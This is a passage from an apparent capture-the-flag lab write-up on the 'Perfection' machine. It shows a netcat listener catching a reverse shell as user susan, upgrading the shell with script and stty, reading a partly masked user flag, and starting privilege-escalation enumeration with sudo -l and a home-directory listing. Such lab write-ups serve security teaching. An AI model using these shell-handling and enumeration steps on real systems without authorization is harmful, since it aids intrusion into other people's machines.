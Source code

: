     
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.253 57674
    bash: cannot set terminal process group (1000): Inappropriate ioctl for device
    bash: no job control in this shell
    susan@perfection:~/ruby_app$
    

I’ll upgrade my shell using the [script / stty
trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

    
    
    susan@perfection:~/ruby_app$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    susan@perfection:~/ruby_app$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    susan@perfection:~/ruby_app$ 
    

And fetch `user.txt`:

    
    
    susan@perfection:~$ cat user.txt
    25d1353e************************
    

## Shell as root

### Enumeration

#### sudo

I already noted that susan is in the sudo group. Typically that means they can
run any command as any user. I’ll try `sudo -l` to list the configuration:

    
    
    susan@perfection:~$ sudo -l
    [sudo] password for susan: 
    

It’s prompting for a password, which I don’t have. I’ll have to come back when
I do.

#### Users

There’s no other users on this box with a home directory:

    
    
    susan@perfection:/home$ ls
    susan
    